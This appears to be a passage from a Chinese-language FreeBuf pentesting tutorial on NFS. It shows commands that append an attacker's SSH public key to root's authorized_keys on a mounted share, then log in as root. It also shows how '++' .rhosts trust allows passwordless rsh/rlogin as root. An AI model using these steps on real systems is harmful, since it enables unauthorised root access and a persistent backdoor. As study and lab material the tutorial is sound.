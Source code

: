 ```
! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/15153085166486.png! small)

生成一个 SSH 密钥对并将其公钥添加到授权密钥列表中, 那样我们就可以通过 NFS 服务器上的 SSH 与其建立连接了.

```
cd /root/.ssh/
ssh-keygen -t rsa -b 4096
cp /root/.ssh/id_rsa.pub /temp/root/.ssh/
cat id_rsa.pub >> /temp/root/.ssh/authorized_keys
ssh -i /root/.ssh/id_rsa root@192.168.1.189
```

! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/15153085466009.png! small)

! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/15153085704084.png! small)

.rhosts 文件用来配置哪些远程主机或用户可以访问系统上的本地帐户. 如果.rhosts 文件的内容为 ++ 符号, 则说明它允许来自网络上的任何主机和用户的连接.

```
cat .rhosts
++
```

! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/15153085978296.png! small)

以下命令将允许系统的 root 用户直接连接目标系统, 系统将不会提示密码输入, 因为来自系统的所有用户都将被信任.

```
rsh -l root IP
rlogin -l root IP
```

! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/15153086237613.png! small)

! [针对 NFS 的渗透测试](https://image.3001.net/images/20180107/1515308649711.png! small)

或者如果.rhosts 的内容不同, 则检查文件将有助于确定哪些主机和用户是可信的, 因此可以在无需密码的情况下进行身份验证.

**\*参考来源: [pentestacademy](https://pentestacademy.wordpress.com/2017/09/20/nfs/), FB 小编 secist 编译, 转载请注明来自 FreeBuf.COM**

本文作者:, 转载请注明来自 [FreeBuf.COM](https://www.freebuf.com)

\# 渗透 \# NFS

被以下专辑收录, 发现更多精彩内容

\+ 收入我的专辑

展开更多

评论 按时间排序

! [](https://image.3001.net/images/index/wp-user-avatar-50x50.png)

请登录 / 注册后在 FreeBuf 发布内容哦

相关推荐
